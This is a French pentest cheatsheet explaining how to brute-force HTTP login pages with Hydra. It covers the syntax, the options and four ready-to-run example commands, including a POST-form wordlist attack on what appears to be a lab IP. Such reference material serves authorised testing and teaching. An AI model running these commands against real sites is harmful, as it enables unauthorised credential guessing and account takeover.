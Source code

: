 ```yaml
---
description: HTTP Login avec Hydra - Cheatsheet
---
```


# HTTP login avec Hydra

Hydra est un outil de brute-force en ligne de commande permettant de tester des combinaisons de noms d'utilisateur et de mots de passe pour se connecter à des services HTTP.

_<mark style="color:yellow;">Utilisation de base</mark>_ <mark style="color:yellow;"></mark><mark style="color:yellow;">:</mark>&#x20;

`hydra -l NOM_UTILISATEUR -P CHEMIN_WORDLIST URL -s PORT -t THREADS http-get|http-post-form "/URL_LOGIN:PARAMETRES_POST:MESSAGE_ERREUR"`

_<mark style="color:yellow;">Options courantes</mark>_ <mark style="color:yellow;"></mark><mark style="color:yellow;">:</mark>&#x20;

* \-l : Nom d'utilisateur à tester (ou spécifiez une liste de noms d'utilisateurs séparés par des virgules).&#x20;
* \-P : Chemin de la wordlist contenant les mots de passe à tester.&#x20;
* \-s : Port du service cible (par défaut : 80 pour HTTP, 443 pour HTTPS).
* &#x20;\-t : Nombre de threads à utiliser pour accélérer le processus de bruteforce.&#x20;
* http-get : Utilisation de la méthode HTTP GET pour se connecter (par défaut).&#x20;
* http-post-form : Utilisation de la méthode HTTP POST pour se connecter via un formulaire.

_<mark style="color:yellow;">Exemples d'utilisation</mark>_ <mark style="color:yellow;"></mark><mark style="color:yellow;">:</mark>

1. Brute-force avec un nom d'utilisateur et une wordlist de mots de passe : `hydra -l admin -P /chemin/vers/wordlist.txt [http://example.com/login](http://example.com/login)`
2. Brute-force avec une liste de noms d'utilisateurs et un mot de passe spécifique : `hydra -L users.txt -p Password123 [http://example.com/login](http://example.com/login)`
3. Brute-force avec un formulaire HTTP POST : `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.131.127 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid"`
4. Brute-force en utilisant un port personnalisé (p.ex., 8080) : `hydra -l admin -P /chemin/vers/wordlist.txt` [`http://example.com:8080/login`](http://example.com:8080/login)
